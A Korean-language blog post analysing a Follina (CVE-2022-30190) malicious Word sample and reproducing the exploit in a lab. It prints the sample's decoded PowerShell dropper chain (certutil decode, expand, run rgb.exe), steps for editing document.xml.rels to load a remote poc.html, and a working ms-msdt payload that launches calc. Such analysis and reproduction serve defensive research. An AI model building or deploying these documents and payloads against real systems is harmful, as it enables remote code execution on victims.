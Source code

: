 ```yaml
---
layout: post
title: (follina/CVE-2022-30190) 05-2022-0438.doc zero-day malware analysis & exploit
author: fr0siter
categories: [CVE]
date: 2022-12-20
tags: Follina follina
---
```



**※본 문서는 연구 목적으로 작성한 게시글입니다.
  해당 문서를 참고하여 악용할 시 기술자는 책임을 지지 않습니다.**

 

 

# Description
File name : 05-2022-0438.doc(sample)

File size : 10.01 KB

MD5 : 52945af1def85b171870b31fa4782e52

SHA-1 : 06727ffda60359236a8029e0b3e8a0fd11c23313

SHA-256 : 4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784

 
<br>
<br>


처음 파일을 오픈했을 때, 새 파일처럼 내용이 아무것도 포함되어 있지 않다.(가상환경에서 실행.)


**zip 파일로 변경하고 /word/_rels 폴더로 이동하였다.**



![208555659-3208c30d-3f93-40d1-90f5-866ec146d5fe](https://user-images.githubusercontent.com/116713751/208556261-42431e3b-1d4b-4c1c-a7f2-1dd79641b15e.png)
<br>

![208555677-9cfd4632-9093-49e7-907f-12324d7fcc12](https://user-images.githubusercontent.com/116713751/208556233-6260e556-5c06-420c-9803-29208ea57534.png)


  - 해당 파일은 doc 파일의 내부구성 파일 정도로 생각하면 된다.

자세한 정보는 [여기](https://fileinfo.com/extension/rels)를 참고해 주세요.

 
<br><br>
 

**텍스트 파일로 변경한 document.xml.rels**
<br>
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555694-5f2cc749-e045-46f1-ba75-072bdfe50f34.png)


 - 가독성을 위해 여러 줄로 변경하였다.

 - Relationship Id가 "rId996"인 수상한 구성이 보인다.

 

 <br><br>

**현재는 접속이 되지 않는 모습**

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555698-6d2fcd0c-356e-4a8a-be87-cb08f5b64c5e.png)


 
<br><br>
 

**실제로 작동하는 RDF842I.html 파일 중 스크립트 태그의 내용(정크 바이트 제외)**


![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555704-fc5167ac-d463-4d39-8082-e37683bfed10.jpg)


 - [출처](https://thehackernews.com/2022/05/watch-out-researchers-spot-new.html)


 - 해당 파일이 동작하게 되면 word의 external link를 사용하여 html을 로드하고, 'ms-msdt'를 통해 발생한다.

   *ms- msdt : ms / diagnostic tool(진단 도구 모음)*

 
<br><br>
 

**스크립트 태그의 악성 구문**


 

 해당 구문을 통해 powershell 명령을 ms-msdt 로 호출한다는 것을 알 수 있었다.

 

 

 #Invoke-Expression을 통해 실행된 데이터 중 Base64로 인코딩 된 데이터를 디코딩
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555721-45ddf561-616a-4eeb-b28e-b542b0fb3ca1.png)


$cmd = "c:\windows\system32\cmd.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c taskkill /f /im msdt.exe";Start-Process $cmd -windowstyle hidden -ArgumentList "/c cd C:\users\public\&&for /r %temp% %i in (05-2022-0438.rar) do copy %i 1.rar /y&&findstr TVNDRgAAAA 1.rar>1.t&&certutil -decode 1.t 1.c &&expand 1.c -F:* .&&rgb.exe";

 

1. hidden 창으로 다음을 작동

2. 실행 중이면 msdt.exe 종료

3. 인코딩된 CAB 파일에 대한 Base64 문자열을 찾는 RAR 파일 내부의 파일을 통해 for문 작동

  -> base64로 인코딩된 CAB 파일을 1.t로 저장

  -> base64로 인코딩된 CAB 파일을 디코딩하여 1.c로 저장

  -> 1.c CAB 파일을 현재 디텍토리로 확장

  -> rgb.exe 실행

 

이로 인해 rgb.exe가 무슨 기능을 하는지 알 수 없지만, 해당 파일이 실행되어

시스템에 영향을 끼칠 수 있다는 것을 확인할 수 있다.

 

 

 

EXPLOIT
#환경

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555726-7b7420b0-86e9-4136-ac60-42f79da9109b.png)


 

#윈도우에서 word를 검색하여 파일 생성, 이름 zip으로 변경 후 압축해제

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555735-e89b8136-b5b9-45d7-98ef-e3e62dfa48cb.png)


 

 

# /word/_rels 폴더 안에 document.xml.rels 파일을 수정

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555745-4e287339-e402-445e-bc69-1210d539ff24.png)

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555756-04e7ecb0-c34a-4d0d-b596-8011e371f5cb.png)

 - 확장자를 .txt로 변경하고 내용을 확인해보면 문서파일을 구성하는 설정들이 보인다.

 - Relationship Id="rId4" 파트를 아래 설정으로 변경 후 .rels 확장자로 다시 변경

 -> 클릭하면 "http://192.168.75.129:8000/poc.html 파일을 실행하는 object 생성

 

 

# /word 폴더 안에서 document.xml 파일을 실제 악성코드 샘플에서 쓰인 파일로 변경

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555761-b4107a5c-50c9-4eb3-ae74-672497173338.png)
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555765-c3e184b5-25c9-4517-9e67-f365f66fa86c.png)


 - 좌 : 새로 만든 문서의 document.xml

 - 우 : 05-2022-0438.doc 파일의 document.xml 

 

 -> document.xml.rels 파일에 "oleObject" 의 설정으로 변경해주었었는데,

     document.xml에 object 구성에 대해 기술되어있는 것을 확인할 수 있다.

     그러므로 "http://192.168.75.129:8000/poc.html" 파일을 의도적으로 실행하기 위해

     document.xml 파일을 object 구성정보가 있는 파일로 변경해주었다.

 

 

#처음 압축 해제 한 폴더로 돌아와서 재압축 후 .doc으로 확장자 변경.


 ![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555776-ad1423c7-2813-49ca-a65d-44d3351ef0df.png)


#워드파일 실행 후 오브젝트 더블클릭
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555782-131f0dbf-d486-43ef-8af2-9b10e147b30c.png)


  - 문서를 열었을 때 빈 문서처럼 보이지만, 좌측 상단을 더블클릭하게 되면 오브젝트가 실행되어

    공격자의 서버와 통신하고, 공격자 서버의 html 파일을 실행하게 된다.

 

 

#공격자 서버쪽에서 poc.html 파일이 실행된 것이 보였다.

![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555787-4e54ffeb-480d-422f-b0e4-de6af5c9299e.png)

 

 

#poc.html
![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555790-1f9372de-9ec0-423d-9763-5387887f313f.png)


 - script 태그 안의 무수히 많은 'B'는 4096바이트를 채우기 위해 존재하는 것인데, 4096바이트는 HTML 처리 기능을 위한 

  하드코딩된 버퍼 크기이다. 4096 바이트 미만의 파일은 페이로드를 호출하지 않는다고 한다.

 

window.location.href = "ms-msdt:/id PCWDiagnostic /skip force /param \"IT_RebrowseForFile=cal?c IT_SelectProgram=NotListed IT_BrowseForFile=h$(IEX('calc'))i/../../../../../../../../../../../../../../Windows/System32/mpsigstub.exe \"";
 - 정크 데이터를 제외하고 스크립트 코드가 있는데, 이 코드는 호출되었을 때 ms-msdt를 이용해 피해자의 로컬에서 계산기를 호출하는 파워쉘코드를 포함하고 있다.

 

 

# 위 과정을 통해 오브젝트를 클릭하면 아래 사진처럼 피해자의 의지 없이 계산기가 실행되게 된다.


 ![img1 daumcdn](https://user-images.githubusercontent.com/116713751/208555806-7ddffb21-db35-41e7-8297-4fddfe291aff.png)


 

 

[참고문서]

https://www.huntress.com/blog/microsoft-office-remote-code-execution-follina-msdt-bug

https://www.virustotal.com/gui/file/4a24048f81afbe9fb62e7a6a49adbd1faf41f266b5f9feecdceb567aec096784/details

https://app.any.run/tasks/713f05d2-fe78-4b9d-a744-f7c133e3fafb/

https://thehackernews.com/2022/05/watch-out-researchers-spot-new.html

https://isc.sans.edu/forums/diary/New+Microsoft+Office+Attack+Vector+via+msmsdt+Protocol+Scheme/28694/#comments 

https://www.pwndefend.com/2022/05/30/office-microsoft-support-diagnostic-tool-msdt-vulnerability-follina/
